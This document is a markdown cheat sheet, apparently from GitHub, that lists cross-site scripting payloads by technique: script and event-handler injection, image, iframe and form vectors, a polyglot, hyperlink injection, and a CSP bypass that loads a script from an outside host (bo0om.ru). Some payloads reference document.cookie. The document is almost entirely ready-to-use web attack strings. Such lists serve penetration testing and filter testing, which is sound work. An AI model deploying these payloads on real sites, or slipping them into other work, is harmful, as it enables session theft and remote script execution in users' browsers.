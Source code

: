 # Unique XSS Payloads and Techniques

### Script Injection
- "-prompt(8)-"
- '-prompt(8)-'
- ";a=prompt,a()//
- "><script>alert(1)</script>`
- `<script src=javascript:alert(1)>
- "><svg onload=alert(1)>
- <img src=1 onerror=alert(1)>
- javascript:alert(1)

"onmouseover="alert(1)
javascript:alert(1)`

### Event Handlers
- `onmouseover=alert(1)`
- `<body/onfocus=alert(1)>`
- `<marquee onstart=alert(1)>`
- `<x onclick=alert(1)>click this!`
- `<x onmousedown=alert(1)>click this!`
- `<brute onclick=alert(1)>click this!`

### Image and Media Tags
- `"'><img src="javascript:alert(1)">`
- `<img/src=1 onerror=window.alert(1)>`
- `<audio src=1 onloadstart=alert(1)>`
- `<video onloadstart=alert(1)><source>`

### Dynamic Elements
- `<svg/onload=alert(1)>`
- `<iframe src="%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aalert(1)">`
- `<iframe src=javascript:alert(1)>`
- `<IFRAME SRC=# onmouseover="alert(1)"></IFRAME>`

### Forms and Links
- `<form><button formaction=javascript:alert(1)>click`
- `<IMG SRC="javascript:alert(1);">`
- `<acronym onmousedown="alert(1)">test</acronym>`

- `<img src="/" onerror='prompt(1)'>`
- `<svg/onload=eval(location.hash.substr(1))>#alert(1)`
- `<details/open/ontoggle=confirm('XSS')>`

## CSP Bypass
- `<script>f=document.createElement("iframe");f.id="pwn";f.src="/robots.txt";f.onload=()=>{x=document.createElement('script');x.src='//bo0om.ru/csp.js';pwn.contentWindow.document.body.appendChild(x)};document.body.appendChild(f);</script>`

## Polyglot Payloads
- `javascript:"/*'/*\`/*--></noscript></title></textarea></style></template></noembed></script><html " onmouseover=/*<svg*/onload=alert()//`

## Inline HTML Injection
- `" onclick=alert(1)//">click`
- `" autofocus onfocus=alert(1) "`

## JavaScript Injection
- `'?prompt\`1\`?'`
- `"})},alert(1));(function xss() {//`
- `"-alert(1)-"`

## Hyperlink Tag Injection
- `javascript://%250Aalert(document.location="https://google.com",document.location="https://www.facebook.com")`
- `/x:1/:///%01javascript:alert(document.cookie)/`
